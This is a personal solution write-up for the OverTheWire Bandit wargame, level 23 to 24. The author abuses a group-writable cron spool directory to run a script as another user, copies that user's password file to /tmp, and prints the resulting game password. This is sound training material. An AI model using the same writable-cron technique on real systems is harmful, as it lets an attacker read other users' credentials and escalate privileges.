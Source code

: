 Bandit Level 23 → Level 24
==========================

Level Goal
----------

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level
-----------------------------------------

cron, crontab, crontab(5) (use “man 5 crontab” to access this)


Solution
========

This one took me some time to understand. While I relatively quickly found the script and understood what the script does, I didn't have a clue what to do in order to get the next level's password:

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```

Then after I asked one of the admins in IRC for a hint, I recognized that the script's directory ```/var/spool/bandit24``` is writeable for group ```bandit23```:

```
bandit23@bandit:~$ ls -al /var/spool/
total 24
drwxr-xr-x  7 root     root     4096 Oct 27 16:13 .
drwxr-xr-x 27 root     root     4096 Oct 27 16:13 ..
drwx-wx---  2 bandit24 bandit23 4096 Oct 27 16:36 bandit24
```

Therefore since the current user is ```bandit23```, we have write access to this directory.
So in order to exploit the script, we would have to write some own script to ```/var/spool/bandit24``` that gets executed by the script ```/usr/bin/cronjob_bandit24.sh``` every minute and then gets deleted. Great, but what should our own shell script do in order to get the next level's password?!

Then I remembered that I've sometimes read something about the location of passwords within the OverTheWire challenges. Unfortunately I neither recalled where I read about it nor did I recall what the location of the password files was. But since we already learned about search for files with specific attributes, I simply looked for an object that is owned by bandit24:

```
bandit23@bandit:~$ find / -user bandit24 2>/dev/null
/var/spool/bandit24
/etc/bandit_pass/bandit24
/etc/.info24.txt
/home/bandit24
/home/bandit24/.profile
/home/bandit24/.bashrc
/home/bandit24/.bash_logout
/usr/bin/cronjob_bandit24.sh
```

**Note to myself:**

**Be more concentrated and carefully collect all information you get!**

Because I later remembered where I read about the password path: It's in the ```motd``` (Message Of the Day) that gets displayed whenever one logs into at least some of the previous level's.

```
bandit23@bandit:~$ cat /run/motd.dynamic
[...]
--[ Playing the games ]--

  This machine holds several wargames.
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.
[...]
```

With this information im mind I quickly implemented my own script that gets executed by the cron job with the access rights of bandit24 and therefore is allowed to redirect the content of ```/etc/bandit_pass/bandit24``` into a file that the current user ```bandit23``` is allowed to access:

```
bandit23@bandit:~$ ls -al /etc/bandit_pass/bandit24
-r-------- 1 bandit24 bandit24 33 Sep 28 14:03 /etc/bandit_pass/bandit24
```
```
bandit23@bandit:~$ cat myscript.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_pass
chmod 0555 /tmp/bandit24_pass
```
```
cp myscript.sh /var/spool/bandit24
chmod 0777 //var/spool/bandit24/myscript.sh
```

After waiting a minute for the cronjob to be executed, I was able to display the next level's password =)

```
bandit23@bandit:~$ cat /tmp/bandit24_pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
